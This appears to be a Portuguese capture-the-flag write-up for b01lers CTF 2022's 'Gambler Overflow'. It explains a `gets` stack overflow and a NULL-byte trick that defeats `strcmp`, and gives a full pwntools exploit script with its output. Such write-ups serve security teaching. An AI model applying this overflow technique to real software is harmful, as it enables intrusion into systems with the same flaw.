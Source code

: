 ```yaml
---
layout: post
title: Gambler Overflow - [b01lers CTF]
date: 2022-04-27 22:26
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

Existe um óbvio buffer overflow que permite sobreescrever valores. Mas ao invés de uma simples execução de shellcode ou redirecionamento de código, havia um caminho mais simples de se percorrer.

Caso queira acompanhar, o binário do challenge está [aqui](https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/b01lers_CTF_2022/gambler_overflow). E o link com as informações do evento [aqui](https://ctftime.org/event/1583).

Com o overflow é possível sobreescrever o valor da `Correct Word`:
```
Welcome to the casino! A great prize awaits you when you hit 1000 coins ;)
Your current balance: 100
Guess me a string of length 4 with lowercase letters: aaaa
Your guess: aaaa
Correct word: pmbp
Bummer, you lost. -10 coins.
Your current balance: 90
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
Your current balance: 80
Guess me a string of length 4 with lowercase letters: 
```

Essa tese pode ser confirmada ao se analisar o pseudo código gerado pelo Ghidra da função `casino`, responsável por maior parte da lógica do programa. Renomeei as variáveis que achei interessantes e deixei o resto do jeito que o Ghidra quis:

```C++
void casino(void)

{
  int iVar1;
  long in_FS_OFFSET;
  int local_24;
  char user_input [8];
  char correct_guess [8];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Welcome to the casino! A great prize awaits you when you hit 1000 coins ;)");
  memset(correct_guess,0,8);
  memset(user_input,0,8);
  do {
    if ((int)balance < 1) goto LAB_00101745;
    printf("Your current balance: %d\n",(ulong)balance);
    for (local_24 = 0; local_24 < 4; local_24 = local_24 + 1) {
      iVar1 = rand();
      correct_guess[local_24] = (char)iVar1 + (char)(iVar1 / 0x1a) * -0x1a + 'a';
    }
    printf("Guess me a string of length 4 with lowercase letters: ");
    gets(user_input);
    printf("Your guess: %s\n",user_input);
    printf("Correct word: %s\n",correct_guess);
    iVar1 = strcmp(correct_guess,user_input);
    if (iVar1 == 0) {
      printf("You won (wow)! +%d coins.\n",(ulong)bet_win);
      balance = bet_win + balance;
    }
    else {
      printf("Bummer, you lost. -%d coins.\n",(ulong)bet_loss);
      balance = balance - bet_loss;
    }
    if ((int)balance < 0) {
      puts("You lost your entire balance! Better luck next time...");
      goto LAB_00101745;
    }
  } while ((int)balance < 1000);
  give_flag();
LAB_00101745:
  puts("See you next time!");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Pode se observar na linha 23 que o programa utiliza a função `gets` para obter o input do usuário, como `gets` não se importa com o tamanho do input, possibilita que seja armazenado em `user_input` um valor maior que os 8 chars previamente reservados, nos deixando sobreescrever os valores armazenados abaixo de `user_input` na stack. E logo abaixo de `user_input` na stack está, convenientemente, `correct_guess` com o valor pseudo aleatório gerado no looping iniciado na linha `36`.

Há um pequeno pulo do gato para ser bem sucedido ao explorar esse overflow. De que adianta poder trocar o valor de `correct_guess` se na hora da comparação os valores vão ser diferentes? Afinal, é necesário inserir um certo número de caracteres antes de se chegar na área de memória onde está `correct_guess` e na hora da comparação os dois valores não vão bater:

```
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
```

Todas as proteções populares estão habilitadas no binário (NX, PIE, Canaries), o que dificulta alguns tipos de ataque. Na linha `60` existe uma verificação que checka se o valor de `balance` é maior que `1000`. Caso seja, chama uma função que imprime a flag na tela. Como seria possível trapacear, já que controlamos o valor de `correct_guess`?

Aqui mora o momento que o gato dá seu pequeno pulo: na linha `47` é chamada a função `strcmp` para comparar `user_input` e `correct_guess`. `strcmp` foi feita para comparar duas strings e considera uma string uma sequência de caracteres finalizada por um NULL byte. Consegue entender onde quero chegar?

`gets`, diferente de `strcmp`, não se importa em consumir NULL bytes, ela vai lendo até encontrar um EOF (end of file, pode ser enviado com CTRL+D no terminal) ou um new line (um simples Enter). Então é possível inserir via `gets` uma string que formada por: 7 caracteres + NULL byte + 7 caracteres. Os primeiros 7 caracteres serão utilizados em `strcmp` como nosso input (ela vai desconsiderar o NULL byte e tudo que vier depois), e o segundo conjunto será o novo valor de `correct_guess`.

Aí vai o exploit que escrevi que provavelmente pode ser simplificado em apenas uma linha de código:

```python
#!/usr/bin/env python

from pwn import *

get_flag = False
chall_name = 'gambler_overflow'

def run_with_gdb(p):
    gdb.attach(p,'''
    b *main
    b *casino+280''')

def run_exploit(p, debug):
    if debug:
        run_with_gdb(p)
        

    overflow = (b'A' * 7) + b'\x00' + (b'A' * 7)

    while (True):
        output = p.recv(timeout=2).decode()
        #print(output)
        if "FLAG" in output:
            print(output)
        else:
            p.sendline(overflow)
            
    p.close()

if get_flag:
    p = remote('178.62.32.210', '30138')
    run_exploit(p, False)
else:
    process_full_path = './' + chall_name
    p = process(process_full_path)
    run_exploit(p, False)
```

e rodando:

```
[+] Starting local process './gambler_overflow': pid 7322
Your guess: AAAAAAA
Correct word: AAAAAAA
You won (wow)! +10 coins.
FLAG{isso_eh_a_flag_txt}

See you next time!
```
